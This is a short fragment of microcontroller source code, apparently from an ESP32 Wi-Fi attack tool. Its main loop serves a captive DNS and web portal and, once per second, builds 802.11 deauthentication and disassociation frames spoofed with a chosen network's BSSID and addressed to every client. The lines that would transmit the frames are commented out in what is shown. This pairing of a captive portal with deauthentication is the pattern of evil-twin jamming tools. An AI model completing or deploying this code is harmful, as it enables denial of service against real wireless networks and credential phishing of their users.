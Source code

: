 uint8_t broadcast[6] = { 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF };
uint8_t wifi_channel = 1;

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();

  if (deauthing_active && millis() - deauth_now >= 1000) {
        int channel = _selectedNetwork.ch;
        if (channel >= 1 && channel <= 13) {
            WiFi.setChannel(channel);
        }
    uint8_t deauthPacket[26] = {0xC0, 0x00, 0x00, 0x00, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0x00, 0x00, 0x01, 0x00};

    memcpy(&deauthPacket[10], _selectedNetwork.bssid, 6);
    memcpy(&deauthPacket[16], _selectedNetwork.bssid, 6);
    deauthPacket[24] = 1;

    Serial.println(bytesToStr(deauthPacket, 26));
    deauthPacket[0] = 0xC0;
    // Serial.println(wifi_send_pkt_freedom(deauthPacket, sizeof(deauthPacket), 0));
    // Serial.println(bytesToStr(deauthPacket, 26));
    deauthPacket[0] = 0xA0;
    // Serial.println(wifi_send_pkt_freedom(deauthPacket, sizeof(deauthPacket), 0));

    deauth_now = millis();
  }

  if (millis() - now >= 15000) {
    performScan();
    now = millis();
  }

  if (millis() - wifinow >= 2000) {
    if (WiFi.status() != WL_CONNECTED) {
      Serial.println("BAD");
    } else {
      Serial.println("GOOD");
    }
    wifinow = millis();
  }
}# esp32-bot-code